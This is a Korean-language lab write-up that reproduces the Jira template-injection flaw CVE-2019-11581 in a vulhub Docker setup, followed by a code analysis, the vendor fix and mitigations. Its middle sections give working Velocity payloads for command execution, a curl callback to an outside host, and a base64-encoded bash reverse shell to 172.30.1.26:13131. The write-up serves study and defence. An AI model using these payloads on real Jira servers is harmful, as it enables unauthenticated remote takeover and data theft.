









Atlassian Jira 템플릿 삽입 취약점(CVE-2019-11581)을 악용한 리버스 쉘 공격

Atlassian Jira는 기업에서 널리 사용되는 프로젝트 및 트랜잭션 추적 도구로 결함 추적, 고객 서비스, 요구 사항 수집, 프로세스 승인, 작업 추적, 프로젝트 추적 및 민첩한 관리와 같은 작업 분야에서 널리 사용됩니다. 여러 버전 전에 템플릿 주입을 이용한 임의의 명령을 실행이 가능합니다.：

- 4.4.x
- 5.x.x
- 6.x.x
- 7.0.x
- 7.1.x
- 7.2.x
- 7.3.x
- 7.4.x
- 7.5.x
- 7.6.x before 7.6.14 (the fixed version for 7.6.x)
- 7.7.x
- 7.8.x
- 7.9.x
- 7.10.x
- 7.11.x
- 7.12.x
- 7.13.x before 7.13.5 (the fixed version for 7.13.x)
- 8.0.x before 8.0.3 (the fixed version for 8.0.x)
- 8.1.x before 8.1.2 (the fixed version for 8.1.x)
- 8.2.x before 8.2.3 (the fixed version for 8.2.x)

참고자료:

- https://confluence.atlassian.com/jira/jira-security-advisory-2019-07-10-973486595.html
- https://jira.atlassian.com/browse/JRASERVER-69532
- https://mp.weixin.qq.com/s/d2yvSyRZXpZrPcAkMqArsw
- https://blog.csdn.net/whatday/article/details/111463939
- https://cloud.tencent.com/developer/article/1526557
- https://blog.csdn.net/qq_45746286/article/details/128774872
- https://github.com/vulhub/vulhub/tree/master/jira/CVE-2019-11581


## 환경 구축

CVE-2019-11581 경로에서 터미널 실행

Jira Server 8.1.0 시작：
```
docker compose up -d
```

 - 환경이 시작된 후 http://localhost:8080 설치 가이드로 들어가 "한국어"로 전환
       - 만약 localhost가 안 된다면 http://your-ip:8080
        

 - VPS 조건에서 "Set it to me"(첫 번째 항목)를 선택한 다음 Atlassian 공식으로 이동하여 Jira Server 테스트  - 인증서 신청(Data Center 및 Addons 선택 안 함):


 - 설치 진행(작은 메모리 VPS 단계는 설치에 실패하거나 시간이 오래 걸릴 수 있으므로 4GB 이상의 메모리 공간 권장)

  
 - SMTP 이메일 서버 추가 `http://localhost:8080/secure/admin/AddSmtpMailServer!default.jspa`


 - 정상적으로 설정이 됐는지 확인

시스템 설정을 입력 `http://localhost:8080/secure/admin/ViewApplicationProperties.jspa` 로 이동


 - 우측의 설정편집 클릭


 - "관리자에게 연락 양식"을 ON으로 변경


 - 저장


 - 변경 확인


## 취약점 재연

PoC는 CVE-2019-3396과 동일하게 진행
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('calc').toString()
```

원래 취약점에서는 계산기를 띄우지만 Linux는 calc가 없으므로 whoami로 변경
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('whoami').toString()
```
 - PoC를 직접 하려면 `poc.py`를 실행하거나 `http://localhost:8080/secure/ContactAdministrators!default.jspa`에서 입력


 - 로그아웃시 '관리자 연락 페이지'로 쉽게 이동 가능함


 - 해당 poc 입력 후 send


 - smtpd의 로그를 확인해보면 성공적으로 메일이 전송됨


## 추가1 touch

직관적으로 와닿지 않으니 조금 더 해보자
```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec('touch RCE').toString()
```

 - jira 서버에서 ls를 쳐보면 RCE라는 파일이 없음


 - 'tocuh RCE'를 넣고 send


- 만약 mtpd에 데이터가 표시되지 않으면 메일 대기열 확인 `http://localhost:8080/secure/admin/MailQueueAdmin!default.jspa`


 - 전송이 완료되었다면 다시 jira 서버에서 ls 입력
 - RCE라는 파일이 생성되어 있음


## 추가2 curl

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec("curl your-ip:13131").waitFor()
```

 - nc 13131 포트 수신 대기


 - curl로 요청


 - 수신


## 추가3 리버스쉘

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime', null).invoke(null, null).exec("bash -c {echo,YmFzaCAtaT4mL2Rldi90Y3AvMTcyLjMwLjEuMjYvMTMxMzEgMD4mMQ==}|{base64,-d}|{bash,-i}").waitFor()
```

- Runtime.getRuntime().exec()가 파이프라인 명령어를 실행할 수 없으므로 exec 명령어를 base64로 인코딩


- 13131포트로 수신 대기


 - 위에서 복사한 poc로 전송


 - 쉘 획득


 - ls 입력


## 코드분석

 - ContactAdministrators를 보면 sned() Method가 있음


 - 활성화된 관리자가 있는지 확인하고, sendTo 호출


 - sendTo에서 사용자가 입력한 Subject가 그대로 메일로 만들어져 관리자의 메일큐에 추가됨

 
 
  - EmialBuilder withSubject Method를 보면 사용자가 입력한 subjectTemplate가 그대로 This.subjectTemplate으로 전달

 
 
 
 - This.subjectTemplate는 그대로 EmailRenderer의 매개변수로 들어가서 그대로 템플릿 엔진에 의해 렌더링되어 그대로 SingleMailQueueItem 개체를 구성하게 됨

 
 
 
 - SingleMailQueueItem을 보면 상위 클래스 AbstractMailQueueItem를 그대로 상속
 
 
 - RenderingMailQueueItem을 보면 emailREnderer의 메일을 가져옴

 
 - AbstractMialQueueItem 구조


 - 최종적으로 관리자의 메일큐에 추가되고 렌더링되어 실행되는 구조


## 정리

 - 이 SSTI취약점은 Jira에 SMTP 서버가 구성되어 있고, ('관리자에게 연락 양식'이 활성화되어 있거나, 공격자가 'Jira 관리자'계정에 접근 권한을 가지고 있어야 함).
 
 '관리자에게 연락 양식'이 활성화된 경우
 - 공격자는 인증없이 이 취약점을 악용할 수 있음
 'Jira 관리자 계정'에 접근 권한을 가지고 있는 경우
 - 시스템에서 SMTP로 메일을 보낼 수 있는데 여기서 악용할 수 있음
 두 경우 모두 공격자가 악용하면 취약한 버전의 Jira Server 혹은 Data Center를 실행하는 시스템에서 RCE가 가능해짐

 Subject에 사용자의 입력 값을 제대로 검증하지 않아 공격자가 삽입한 임의코드가 관리자 환경에서 반사 호출되어 실행됨
 Jira Software는 Apache Velocity 템플릿 엔진을 통해 사용자들에게 이메일 전송과 관련된 템플릿을 렌더링하는데, HTML 콘텐츠와 함께 JAVA 기능을 호출하고 객체를 사용할 수 있음
 
 템플릿을 렌더링하는 과정에서 공격자가 악의적으로 삽입한 코드까지 내부로 전달
 템플렛 엔진은 해당 코드까지 렌더링하여 코드를 실행하게 됨


## 버그 수정


 수정 전에는 사용자가 입력한 악성 페이로드인 Subject가 ContactAdministrators 객체에 매개변수로 직접 전달되어 문제가 됐지만, 수정 후에는 하드코딩된 템플릿 $subject가 하드코딩되어 withSubject Method에 직접 전달되지 않는 걸 볼 수 있음
 


## 취약한 버전을 업데이트 할 수 없는 경우

 - '관리자에게 연락 양식(Contact Administrator Form)' 비활성화
 - /secure/admin/SendBulkMail!default.jspa 접근 제한

